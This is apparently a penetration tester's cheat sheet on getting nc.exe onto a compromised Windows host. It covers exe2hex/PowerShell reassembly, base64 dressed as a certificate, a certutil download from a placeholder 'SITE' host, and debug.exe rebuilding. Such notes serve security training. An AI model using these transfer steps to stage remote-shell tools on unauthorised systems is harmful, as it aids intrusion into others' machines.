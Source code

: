 # Encode / Decode Files

## Windows Downloads with exe2hex and PowerShell

```
cp /usr/share/windows-resources/binaries/nc.exe .

upx -9 nc.exe  >>> decrease the file size by 50%
```

#### convert nc.exe to a Windows script (.cmd) to run on the Windows machine, which will convert the file to hex and instruct powershell.exe to assemble it back into binary

```
exe2hex -x nc.exe -p nc.cmd
```

copy to clipboard directly:

```
cat nc.cmd | xclip -selection clipboard
```

paste it into the windows shell

## Certutil

Base64 encode the binary file outside

```
$raw = Get-Content -Path c:\nc.exe -Encoding Byte
$b64 = [System.Convert]::ToBase64String($raw)
$begin= "-----BEGIN CERTIFICATE-----"
$end = "-----END CERTIFICATE-----"
"$begin$b64$end" | Out-File c:\nc.txt
```

Download via Notepad; certutil to write:

```
certutil.exe -decode nc.txt nc.exe
```

we can use certutils cache feature to download the file:

```
certutil.exe –urlcache -split –f "http://SITE/nc.crt" nc.txt
```

## debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

## Base 64 Encoding + Copy & Paste

The trick is by first encoding the file in Base 64. We can do this by using Python:

```
python -c 'print(__import__("base64").b64encode(open("file", "rb").read()))'
```

Then, on the target, we can copy and paste the string into a .txt file with

```
echo "string" > output.txt
```

and use base64 to decode the file, with

```
base64 -d output.txt > output-file
```

If Python is available, you can also run

```
python -c 'print(__import__("base64").b64decode(open("string.txt", "r").read()))' > out-file
```
